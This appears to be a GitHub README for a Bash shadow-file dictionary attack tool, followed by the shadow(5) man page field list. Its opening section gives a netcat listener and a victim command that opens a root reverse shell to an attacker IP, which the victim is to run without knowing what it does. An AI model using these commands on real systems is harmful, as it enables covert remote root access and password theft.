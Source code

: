 # Shadow_Dictionary
A quick Bash script that can perform a dictionary attack against a shadow file to find passwords

# How do we get a shadow file?
A simple way could be a basic netcat attack. Though this approach is not likely to work in the real world, and you should only play around with this idea in a network you own or have permission to.
## Attacker
Setting up the attack is as simple as running this command on your machine:
```
while true; do nc -l -p 5000 < netcat_attack.sh >> victims.txt; done
```
## Victim
Here is where this sort of attack becomes impractical in the real world. We need to get your victim to run this command on their machine somehow without them knowing what it does.
```
sudo nc 192.168.2.250 5000 -e /bin/sh
```
Of course, the above IP address should be the IP address for your attacker machine

# What is a shadow file?
## From the man page for shadow
shadow is a file which contains the password information for the system's accounts and optional aging information.
This file must not be readable by regular users if password security is to be maintained.
Each line of this file contains 9 fields, separated by colons (“:”), in the following order:

1. login name
    * It must be a valid account name, which exist on the system.
  
2. encrypted password
    * Refer to crypt(3) for details on how this string is interpreted.
    * If the password field contains some string that is not a valid result of crypt(3), for instance ! or *, the user will not be         able to use a unix password to log in (but the user may log in the system by other means).
    * This field may be empty, in which case no passwords are required to authenticate as the specified login name. However, some applications which read the /etc/shadow file may decide not to permit any access at all if the password field is empty.
    * A password field which starts with an exclamation mark means that the password is locked. The remaining characters on the line represent the password field before the password was locked.

3. date of last password change
    * The date of the last password change, expressed as the number of days since Jan 1, 1970.
    * The value 0 has a special meaning, which is that the user should change her password the next time she will log in the system.
    * An empty field means that password aging features are disabled.

4. minimum password age
    * The minimum password age is the number of days the user will have to wait before she will be allowed to change her password again.
    * An empty field and value 0 mean that there are no minimum password age.

5. maximum password age
    * The maximum password age is the number of days after which the user will have to change her password.
    * After this number of days is elapsed, the password may still be valid. The user should be asked to change her password the next time she will log in.
    * An empty field means that there are no maximum password age, no password warning period, and no password inactivity period (see below).
    * If the maximum password age is lower than the minimum password age, the user cannot change her password.

6. password warning period
    * The number of days before a password is going to expire (see the maximum password age above) during which the user should be warned.
    * An empty field and value 0 mean that there are no password warning period.

7. password inactivity period
    * The number of days after a password has expired (see the maximum password age above) during which the password should still be accepted (and the user should update her password during the next login).
    * After expiration of the password and this expiration period is elapsed, no login is possible using the current user's password. The user should contact her administrator.
    * An empty field means that there are no enforcement of an inactivity period.

8. account expiration date
    * The date of expiration of the account, expressed as the number of days since Jan 1, 1970.
    * Note that an account expiration differs from a password expiration. In case of an account expiration, the user shall not be allowed to login. In case of a password expiration, the user is not allowed to login using her password.
    * An empty field means that the account will never expire.
    * The value 0 should not be used as it is interpreted as either an account with no expiration, or as an expiration on Jan 1, 1970.

9. reserved field
    * This field is reserved for future use.
